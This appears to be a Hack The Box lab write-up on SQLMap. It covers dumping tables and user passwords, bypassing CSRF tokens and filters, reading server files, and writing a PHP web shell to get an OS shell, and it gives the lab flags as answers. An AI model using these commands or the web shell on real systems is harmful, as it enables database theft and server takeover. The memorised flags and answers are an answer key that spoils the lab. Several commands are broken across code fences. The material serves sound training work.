
*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*_Figure 12.2 — Lab execution and output verification (Page 12)_*


### Advanced Database Enumeration

> **Lab Question (Page 13)**: What's the name of the column containing "style" in it's name? (Case #1)
>
> **Flag / Answer**: `PARAMETER_STYLE`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we run the command:
```bash
sqlmap -u "http://<target-IP>:<target-port>/case1.php?id=1"
```
--search -C style --batch --level=5 --risk=3 --no-cast


*
*


Question: What's the Kimberly user's password? (Case #1)
Answer: Enizoom1609
Method: we will assume from prior experience and section's guide that the
Kimberly columns is 'name', and the password column is 'password'.
We will also assume that the database is named 'testdb', and table is named
'users'


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


*_Figure 13.2 — Lab execution and output verification (Page 13)_*


### Lets find the columns list for good order

Lets find the columns list for good order:
```bash
sqlmap -u "http://<target-IP>:<target-port>/case1.php?id=1"
```
-D testdb -T users --columns --batch --level=5 --risk=3 --
no-cast


*
*


Now that we are confident that the columns are 'name' and 'password', lets
extract Kimberly's password:
```bash
sqlmap -u "http://<target-IP>:<target-port>/case1.php?id=1"
```
-D testdb -T users --dump -C name,password --batch --level=5
--risk=3 --no-cast --where "name LIKE '%Kimberly%'"


*_Figure 14.1 — Lab execution and output verification (Page 14)_*


*_Figure 14.2 — Lab execution and output verification (Page 14)_*


*
*


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


*_Figure 15.2 — Lab execution and output verification (Page 15)_*


### Bypassing Web Application Protections

> **Lab Question (Page 16)**: What's the contents of table flag8? (Case #8)
>
> **Flag / Answer**: `HTB{y0u_h4v3_b33n_c5rf_70k3n1z3d}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, we will need to obtain the token. Lets start burpsuite
burpsuite
go to proxy, open browser and enter to the case8 URL:

Now, we turn the interceptor on, and enter 'submit':


*_Figure 16.1 — Lab execution and output verification (Page 16)_*


*_Figure 16.2 — Lab execution and output verification (Page 16)_*


### Now we can insert that to our sqlmap command

#### Technical Methodology & Exploit Execution:

```bash
sqlmap -u "http://<target-IP>:<target-port>/case8.php" --
```
data="id=1&t0ken=<token-value>" --csrf-token="t0ken" --batch
--level=5 --risk=3 --dbs --dump -T flag8 --no-cast
*in here <token-value> is 'Q0UZYzaFpsjkRsRGscxv0j3BbhWPDuVLRnrH3tpRdtA'
but of course it may change for every request. *:

*
*


*_Figure 17.1 — Lab execution and output verification (Page 17)_*


*_Figure 17.2 — Lab execution and output verification (Page 17)_*


### There is a 'click here' button, lets click it

> **Lab Question (Page 18)**: What's the contents of table flag9? (Case #9)
>
> **Flag / Answer**: `HTB{700_much_r4nd0mn355_f0r_my_74573}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

There is a 'click here' button, lets click it:

There are the parameters 'id=1&uid=<uid-value>'.
We need to randomize the uid. We ill use the command:
```bash
sqlmap -u "http://<target-IP>:<target-
```
port>/case9.php?id=1&uid=12345" --randomize=uid --batch --
level=5 --risk=3 --dbs --dump -T flag9 --no-cast


*_Figure 18.1 — Lab execution and output verification (Page 18)_*


*_Figure 18.2 — Lab execution and output verification (Page 18)_*


*_Figure 18.3 — Lab execution and output verification (Page 18)_*


> **Lab Question (Page 19)**: What's the contents of table flag10? (Case #10)
>
> **Flag / Answer**: `HTB{y37_4n07h3r_r4nd0m1z3}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

This is a bit similar to case 2, so first lets try to run command to case2
command:
```bash
sqlmap -u "http://<target-IP>:<target-port>/case10.php" --
```
data='id=1' --method POST --batch --dump -T flag10 –no-cast


*_Figure 19.1 — Lab execution and output verification (Page 19)_*


*_Figure 19.2 — Lab execution and output verification (Page 19)_*


*_Figure 19.3 — Lab execution and output verification (Page 19)_*


### we will get this error

*
*
we will get this error:

*
*

At the end of the scan the results suggest to use '--random-agent'. And that is
what we are going to do:
```bash
sqlmap -u "http://<target-IP>:<target-port>/case10.php" --
```
data='id=1' --method POST --batch --dump -T flag10 –no-cast -
-random-agent


*
*


*_Figure 20.1 — Lab execution and output verification (Page 20)_*


*_Figure 20.2 — Lab execution and output verification (Page 20)_*


*_Figure 20.3 — Lab execution and output verification (Page 20)_*


*_Figure 20.4 — Lab execution and output verification (Page 20)_*


### We will use the tamperscript 'between'

> **Lab Question (Page 21)**: What's the contents of table flag11? (Case #11)
>
> **Flag / Answer**: `HTB{5p3c14l_ch4r5_n0_m0r3}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

We will use the tamperscript 'between':


```bash
sqlmap -u "http://<target-IP>:<target-port>/case11.php?id=1"
```
--tamper=between --batch --level=5 --risk=3 --dbs --dump -T
flag11 --no-cast


*
*


*_Figure 21.1 — Lab execution and output verification (Page 21)_*


*_Figure 21.2 — Lab execution and output verification (Page 21)_*


*_Figure 21.3 — Lab execution and output verification (Page 21)_*


*
*


*_Figure 22.1 — Lab execution and output verification (Page 22)_*


*_Figure 22.2 — Lab execution and output verification (Page 22)_*


### OS Exploitation

> **Lab Question (Page 23)**: Try to use SQLMap to read the file "/var/www/html/flag.txt".
>
> **Flag / Answer**: `HTB{5up3r_u53r5_4r3_p0w3rful!}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first we need to determine that we have DBA (Database
Administrator) privileges, which allows us to read files.
Now as the target website has 'id=1' parameter:

we will use the command:
```bash
sqlmap -u "http://<target-IP>:<target-port>/?id=1" --is-dba
```
--batch


*
*


*_Figure 23.1 — Lab execution and output verification (Page 23)_*


*_Figure 23.2 — Lab execution and output verification (Page 23)_*


*_Figure 23.3 — Lab execution and output verification (Page 23)_*


### proceed

Value 'True' means we do have DBA privileges, which is great! We may
proceed:
```bash
sqlmap -u "http://<target-IP>:<target-port>/?id=1" --file-
```
read "/var/www/html/flag.txt" --batch


*
*

The file's content was saved in our machine in that file. Lets get it:
```bash
cat /home/<attacking-box-
```
user>/.local/share/sqlmap/output/<target-
IP>/files/_var_www_html_flag.txt


*_Figure 24.1 — Lab execution and output verification (Page 24)_*


*_Figure 24.2 — Lab execution and output verification (Page 24)_*


*_Figure 24.3 — Lab execution and output verification (Page 24)_*


### via SQL

> **Lab Question (Page 25)**: Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.
>
> **Flag / Answer**: `HTB{n3v3r_run_db_45_db4}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first lets create php shell payload and write it to the target machine
via SQL:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

```bash
sqlmap -u "http://<target-IP>:<target-port>/?id=1" --file-
```
write "shell.php" --file-dest "/var/www/html/shell.php"


*
*


We now should be able to give commands to the target machine, lets test it
with something basic:
```bash
curl http://<target-IP>:<target-port>/shell.php?cmd=ls
```


*_Figure 25.1 — Lab execution and output verification (Page 25)_*


*_Figure 25.2 — Lab execution and output verification (Page 25)_*


### machine, after shell.php is injected to it

It works (and that flag is the already obtained flag, ignore that).

Now sqlmap provides us with build in way to obtain a shell to the target
machine, after shell.php is injected to it:
```bash
sqlmap -u "http://<target-IP>:<target-port>/?id=1" --os-
```
shell --batch


*
*

Lets find the flag:
```bash
find / -type f -name flag.txt | grep flag.txt
```


*_Figure 26.1 — Lab execution and output verification (Page 26)_*


*_Figure 26.2 — Lab execution and output verification (Page 26)_*


*_Figure 26.3 — Lab execution and output verification (Page 26)_*


### The second flag is in the base '/' path, lets get it

The second flag is in the base '/' path, lets get it:
```bash
cat /flag.txt
```


*_Figure 27.1 — Lab execution and output verification (Page 27)_*


*_Figure 27.2 — Lab execution and output verification (Page 27)_*


### Capstone: Skills Assessment

> **Lab Question (Page 28)**: What's the contents of table final_flag?
>
> **Flag / Answer**: `HTB{n07_50_h4rd_r16h7?!}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

**note – as this section took me several sessions to complete, target
IP and port will occasionally change on the various screenshots. **
First, I will describe some failed attempts: sqlmap bruteforce the GET requests
on the ordinary pages, or the POST of those pages.

We need to find a proper POST page which is vulnerable to the sql injection
map.
Brute forcing with tools like gobuster or fuff will not work properly (not for me
anyway). We will have to find that post request manually.
Most of the supposedly POST generated requests on this target website like
review submitting or item checkout are disabled.
So, We will use burpsuite for that task. Lets open burpsuite browser on proxy
mode, and enter the website (enter the <target-IP:<target-port> on the URL):

Lets go to Catalog → Shop:


*_Figure 28.1 — Lab execution and output verification (Page 28)_*


*_Figure 28.2 — Lab execution and output verification (Page 28)_*


Now its time to activate the proxy interceptor shot page - we will select some
item (in this write-up it is the first one)

And its POST request will be intercepted by the proxy.

Lets right-click the request, and save the item to a file 'request.txt':


*_Figure 29.1 — Lab execution and output verification (Page 29)_*


*_Figure 29.2 — Lab execution and output verification (Page 29)_*


*_Figure 29.3 — Lab execution and output verification (Page 29)_*


### 'request.txt' file

→

Now, there was some trial and error with the command parameters, especially
the tamper to choose for the sql-injection, however this is the initial one:
```bash
sqlmap -r request.txt --tamper=between --dump --batch --no-
```
cast --level=5 --risk=3
the command will base its attack based on the request stored in the
'request.txt' file:

*
*


*_Figure 30.1 — Lab execution and output verification (Page 30)_*


*_Figure 30.2 — Lab execution and output verification (Page 30)_*


*_Figure 30.3 — Lab execution and output verification (Page 30)_*


### in 'production' database

*
*

We can observe here that there is a dababase 'production', and in it the table
'final_flag'.
As the current command will fetch the entire database, and that quite a lot and
due to the command functionality will take some time – we will halt the
current command, and run again more focused search, on the 'final_flag' table
in 'production' database:
```bash
sqlmap -r request.txt --tamper=between --dump --batch --no-
```
cast --level=5 --risk=3 -D production -T final_flag


*_Figure 31.1 — Lab execution and output verification (Page 31)_*


*_Figure 31.2 — Lab execution and output verification (Page 31)_*


*
*


